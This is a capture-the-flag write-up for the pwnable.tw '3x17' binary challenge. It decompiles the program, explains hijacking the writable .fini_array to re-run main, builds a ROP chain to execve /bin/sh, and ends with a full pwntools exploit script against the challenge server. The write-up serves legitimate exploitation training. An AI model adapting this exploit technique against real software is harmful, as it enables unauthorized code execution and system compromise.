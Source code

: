 # 3x17

file:
```
3x17: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=a9f43736cc372b3d1682efa57f19a4d5c70e41d3, stripped
```

checksec:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      No      0               0       3x17
```

## solution

The program prompts for an address and some data and then seems to do nothing.

I prefer to analyze stripped files in ghidra rather than r2 since its easier to browse and edit as I go along. Decompiling the main function with some renaming:

```cpp
ulong main(void)
{
  int v1;
  ulong result;
  long in_FS_OFFSET;
  undefined buf [24];
  long v2;
  
  v2 = *(long *)(in_FS_OFFSET + 0x28);
  DAT_004b9330 = DAT_004b9330 + 1;
  result = (ulong)DAT_004b9330;
  if (DAT_004b9330 == 1) {
    write(1,"addr:",5);
    read(0,buf,0x18);
    v1 = FUN_0040ee70(buf);
    write(1,"data:",5);
    read(0,(long)v1,0x18);
    result = 0;
  }
  if (v2 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    stack_smashing_detector();
  }
  return result;
}
```

So given some unity conditional statement, the binary will prompt the user for an "addr" and stores that in a length 22 buffer. It calls some function and returns the value into v1. It then prompts the user for a "data" and stores that in another length 22 buffer (v1). Conducting dynamic analysis yields the conclusion that entering in 22 characters+ of input will cause a premature exit.

I guess `stack_smashing_detector()` is a custom stack canary?

```cpp
void stack_smashing_detector(void)
{
  char *pcVar1;
  char *pcVar2;
  char cVar3;
  
  pcVar2 = "stack smashing detected";
  cVar3 = '\0';
  actual_stack_smashing_detector(0,"stack smashing detected");
  if (cVar3 == '\0') {
    do {
      FUN_00413260(1,"*** %s ***: %s terminated\n",pcVar2,"<unknown>");
    } while( true );
  }
  do {
    pcVar1 = *DAT_004ba940;
    if (pcVar1 == (char *)0x0) {
      pcVar1 = "<unknown>";
    }
    FUN_00413260(3,"*** %s ***: %s terminated\n",pcVar2,pcVar1);
  } while( true );
}
```


We need to find an address for overwriting since that is the purpose of the program. We can check if we have a writable initialization/termination sections using readelf. We do have a writable `.fini_array` section.

```sh
$ readelf -S ./3x17 
[15] .init_array       INIT_ARRAY       00000000004b40e0  000b30e0
       0000000000000010  0000000000000008  WA       0     0     8
[16] .fini_array       FINI_ARRAY       00000000004b40f0  000b30f0
       0000000000000010  0000000000000008  WA       0     0     8
```

The way it works is that the runtime linker proccesses initialization sections (.init etc) before transferring control to the program. When the program terminates, the runtime linker proccesses its termination functions (.fini etc). The `.fini_array` contains the address of a destructor function which will be executed when the program terminates. This is interesting because if we overwrite `.fini_array` with the start address of the `main` function, upon termination the program will start again rather, allowing us to repeatedly enter data. This is abusable.

So for each set (addr, data) of inputs, the addr is the address we want to write data to. This will be the fini_array address + offset.

If we look back to the `entry` function.

```cpp
void entry(undefined8 param_1,undefined8 param_2,undefined8 param_3)
{
  undefined8 in_stack_00000000;
  
  __libc_start_main(main,in_stack_00000000,&stack0x00000008,FUN_004028d0,FUN_00402960,param_3);
  do {
                    /* WARNING: Do nothing block with infinite loop */
  } while( true );
}
```

Referring to the [linux standard base specification](https://refspecs.linuxbase.org/LSB_3.1.0/LSB-generic/LSB-generic/baselib---libc-start-main-.html), we observe the `FUN_0042960` is the `.fini_array` which is at address 0x00402960. The gadget addresses can be found using `ROPgadget`, and the `syscall` address can be found with `objdump -d`.

Our exploit chain looks something like this, with each line being a new input into the program:

```
- addr: fini_array        data: .fini_array call + main (overwrite with main)
- addr: fini_array+2*8    data: pop_rdi + (fini_array + 11*8)
- addr: fini_array+4*8    data: pop_rdx + padding
- addr: fini_array+6*8    data: pop_rsi + padding
- addr: fini_array+8*8    data: pop_rax + 0x3b (0x3b syscall is sys_execve)	
- addr: fini_array+10*8   data: syscall + /bin/sh
- addr: fini_array        data: leave_ret (so we stop looping)
```

Once we have the shell, just `cat /home/3x17/the_4ns_is_51_fl4g`. The python script is below

```py
#!/usr/bin/env python3

from pwn import *

def start():
    global p
    if args.REMOTE:
        p = remote("chall.pwnable.tw", 10105)
    else:
        p = elf.process()

context(os="linux") 
context.binary = elf = ELF("./3x17")
#context.log_level = "debug"
start()


main = 0x401b6d
fini = 0x402960
fini_array = 0x4b40f0
syscall = 0x04022b4

pop_rdi = 0x0401696
pop_rdx = 0x0406c30
pop_rsi = 0x0446e35
pop_rax = 0x041e4af
leave_ret = 0x0401c4b

def send(addr, data):
    p.sendlineafter(b"addr:", str(addr))
    p.sendafter(b"data:", data)

send(fini_array, p64(fini) + p64(main))
send(fini_array+16, p64(pop_rdi) + p64(fini_array + 11*8))
send(fini_array+32, p64(pop_rdx) + p64(0))
send(fini_array+48, p64(pop_rsi) + p64(0))
send(fini_array+64, p64(pop_rax) + p64(0x3b))
send(fini_array+80, p64(syscall) + b"/bin/sh\x00")
send(fini_array, p64(leave_ret))

p.interactive()
```
